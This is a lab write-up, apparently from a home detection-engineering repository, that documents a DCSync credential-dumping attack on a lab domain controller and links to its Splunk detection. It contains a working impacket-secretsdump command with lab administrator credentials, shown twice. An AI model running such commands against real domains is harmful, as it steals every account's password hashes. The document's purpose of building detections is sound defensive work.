




# 12 — DCSync Attack

## Overview

| Field           | Detail                                                                                      |
| --------------- | ------------------------------------------------------------------------------------------- |
| Status          | ✅ Completed                                                                                 |
| Date            | 27 June 2026                                                                                |
| Tier            | Advanced                                                                                    |
| Attacker        | kali-linux-attacker-vm (10.0.10.3)                                                          |
| Target          | win-dc (10.0.10.10)                                                                         |
| MITRE Tactic    | Credential Access                                                                           |
| MITRE Technique | [T1003.006 — OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/) |
| Tool            | impacket secretsdump                                                                        |
| Log Source      | Windows Security Event 4662                                                                 |
| Detection       | [detection/12-dcsync.md](../../detection/12-dcsync.md)                                      |

---

## Attack Steps

```bash
# From Kali, abuse AD replication to pull password hashes (needs privileged creds):
impacket-secretsdump '200teamok.local/Administrator:TryHackMe123!@10.0.10.10' -just-dc
```


---

## Detection (summary)

Full SPL, alert settings, and notes are in the [detection file](../../detection/12-dcsync.md).

---

## Findings

> *(Fill in after completing the exercise)*

| Field           | Result                                                                                 |
| --------------- | -------------------------------------------------------------------------------------- |
| Date            | 27 June 2026                                                                           |
| Command used    | impacket-secretsdump '200teamok.local/Administrator:TryHackMe123!@10.0.10.10' -just-dc |
| Events captured | 4662                                                                                   |
| Alert triggered | Yes                                                                                    |

---

## Screenshots
   
---

## Cleanup

This attack modifies the target. Restore afterwards:

```bash
./scripts/recovery/restore.sh win-client
```

